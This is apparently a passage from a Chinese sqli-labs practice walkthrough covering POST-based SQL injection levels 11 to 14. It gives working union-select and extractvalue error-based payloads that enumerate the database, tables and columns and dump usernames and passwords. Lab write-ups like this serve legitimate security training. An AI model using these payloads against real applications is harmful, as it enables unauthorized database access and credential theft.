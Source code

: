 ```mysql
POST注入，单引号闭合，使用union select即可
```

## Less-12(POST union)

```mysql
POST注入，闭合方式为")，使用union select即可
```

## Less-13(POST 报错)

```mysql
首先找到闭合方式为')
输入') union select 1,2 # 发现没有回显，那么尝试报错注入
') union select 1,extractvalue(1,concat('~',(select database()))) #
```

![image-20240308195748416](sqli-labs.assets/image-20240308195748416.png)

```mysql
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()))) #
爆表
```

```mysql
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'))) #
爆列名
```

```mysql
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select substr(group_concat(username,'~',password),1,30) from users))) #
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select substr(group_concat(username,'~',password),25,30) from users))) #
passwd=1&uname=') union select 1,extractvalue(1,concat('~',(select substr(group_concat(username,'~',password),50,30) from users))) #
爆出全部信息
```

## Less-14(POST)报错

```mysql
passwd=admin&uname=admin"#
判断出闭合方式是"，同时没有回显，那么接着报错注入
passwd=admin&uname=admin" union select 1,extractvalue(1,concat('~',database())) #
```
